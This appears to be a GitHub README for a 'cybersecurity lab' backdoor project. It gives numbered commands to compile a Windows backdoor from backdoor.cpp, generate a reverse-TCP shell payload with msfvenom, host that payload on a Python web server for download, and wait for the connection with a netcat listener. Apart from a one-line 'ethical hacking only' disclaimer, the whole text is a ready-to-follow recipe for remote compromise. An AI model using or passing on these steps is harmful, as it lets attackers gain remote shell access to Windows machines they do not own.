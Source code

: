# cybersecurity
Cybersecurity Lab Experiences by Fabio Felgueiras

Use this for ethical hacking only 

1- Download

    git clone https://github.com/Blive77/cybersecurity/blob/main/backdoor.cpp
    
2- Compile

    x86_64-w64-mingw32-g++ --static -o backDoorTest.exe backdoor.cpp -fpermissive -lws2_32
    
3- Create the Payload with msfvenom in Kali linux

    msfvenom -p windows/x64/shell_reverse_tcp lhost="Host IP" lport="Host Port" -f raw > load.bin
    
    
4- Setup the http webserver for Payload download (while in cybersecurity folder)

    python -m http.server
    
5- Open the listner for the backdoor to connect to (using netcat)

    nc -lvvnp
